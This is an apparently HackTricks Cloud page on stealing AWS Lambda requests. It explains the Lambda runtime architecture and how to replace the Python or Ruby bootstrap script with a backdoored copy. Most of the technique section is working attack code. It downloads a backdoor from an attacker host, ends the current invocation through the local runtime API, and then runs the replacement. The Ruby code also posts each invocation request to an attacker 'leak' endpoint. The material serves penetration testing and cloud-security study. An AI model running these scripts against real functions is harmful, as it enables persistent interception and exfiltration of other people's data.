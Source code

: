 # AWS - Steal Lambda Requests

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Introduction <a href="#python-runtime" id="python-runtime"></a>

This attack supposes that you have some kind of **access over a running Lambda**.\
Also, something important to note is that **Lambda invocations aren’t completely separated from each other but are isolated**. They could run, though not simultaneously, in the same execution environment. With that in mind, let’s start dissecting that environment.

### Isolation

Lambda isolation uses thi cgroups:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

As the prefix 'sandbox' didn’t match any common container engine(docker, podman, LXD, rkt), it could be a proprietary container engine, which could be internally using an open source container runtime like [runC](https://github.com/opencontainers/runc).

### How Lambdas work  <a href="#python-runtime" id="python-runtime"></a>

This appears to be the python Lambda architecture:

<figure><img src="../../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

1. A process outside the container, referred to as the "**slicer"** in the init binary, sends invocation events to the **init** process via shared memory.
2. The init process sets up an HTTP server on port 9001 (hard-coded), with several exposed endpoints:
   1. /2018-06-01/runtime/invocation/**next** – get the next invocation event
   2. /2018-06-01/runtime/invocation/{invoke-id}/**response** – return the handler response for the invoke
   3. /2018-06-01/runtime/invocation/{invoke-id}/**error** – return an execution error
3.  In `bootstrap.py` the following loop **queries the init process for a new event**, and then **calls the user’s function** to handle it (here, the request handler you uploaded runs).\


    <figure><img src="../../../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>
4. The **handler response is then sent back to the init process** through one of the following endpoints:
   1. `/{invoke-id}/response` – if the user handler executed successfully
   2. `/{invoke-id}/error` – if an exception was raised during the handling of the invoke

## Technique Summary <a href="#python-runtime" id="python-runtime"></a>

It's possible to **substitute the bootstrap script** with malicious code to be able to **intercept data** sent to the Lambda function.\
Note tha**t other engines in other languages** have another **bootstrap** **script** written in that language, so this can be done **also in other lambdas using other languages**, not only in python.

## Python <a href="#python-runtime" id="python-runtime"></a>

From the lambda, download **`/var/runtime/bootstrap.py`**  (or just spin up **your own lambda** and get it) and add the backdoor that will be leaking all the data sent to Lambda. You just need to add a couple of lines such as:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

### Replacing Runtime

Now with the new **`boostrap.py` created**, it's possible to **download** it, **end the current lambda** **invocation** and run it to **replace** the legit one:

```python
import os
from urllib import request

# Download bootstrap.py from your server
r = request.urlopen('http://attacker.com/bootstrap.py')
with open('/tmp/bootstrap.py', 'w') as f:
    f.write(r.read().decode('utf-8'))

# Get invocation ID and end it
req = request.urlopen("http://127.0.0.1:9001/2018-06-01/runtime/invocation/next")
inv_id = req.headers["Lambda-Runtime-Aws-Request-Id"]
req = request.Request(f"http://127.0.0.1:9001/2018-06-01/runtime/invocation/{inv_id}/response", data=b"null")
req.add_header("Content-Type", "application/x-www-form-urlencoded")
request.urlopen(req)

# Start your bootstrap.py
os.system("python3 /tmp/bootstrap.py")
```

Or you could also use [twist\_runtime.py](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/twist\_runtime.py), which will end the invocation as done previously, run the new bootstrap and exfiltrate the information.

{% hint style="warning" %}
If a lambda function is not used for 5-15 minutes it will be shut down, and all the changes will be lost the next time it's invoked.
{% endhint %}

## Ruby Runtime <a href="#ruby-runtime" id="ruby-runtime"></a>

In ruby, the file you want to backdoor is **`/var/runtime/lib/runtime.rb`** file (get it from the system or running your own lambda).

Adding a backdoor is as simple as done in the python version:

```ruby
# Add a require at the beggining
require 'json'
require 'net/http'
[...]
# In the loop where the invocation is treated
begin 
    context = lambdaContext.new(raw_request)
    uri = URI('http://attacker:80/leak')
    Net::HTTP.post(uri,JSON.generate(request))
    [...]
```

Then, you just need to do what you did in the python version with just a change:

* **Download the backdoor in a directory**
* **Symlink** `/var/runtime/lib/*` with the directory where the backdoor is
* Finish the current lambda invocation

```ruby
# You can get a ruby shell with 'irb' or run from shell with ruby -e "..."

require 'net/http'

# Downloading new script
uri = URI("http://attacker/rumtime.rb")
r = Net::HTTP.get_response(uri)
File.write("/tmp/rumtime.rb", r.body)

# Create symlink
ln -s /var/runtime/lib/* /tmp

# Terminate currrent invocation
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
req = Net::HTTP.get_response(uri)
inv_id = req.header['Lambda-Runtime-Aws-Request-Id']
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+inv_id+'/response')
Net::HTTP.post(uri, 'null')
```

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
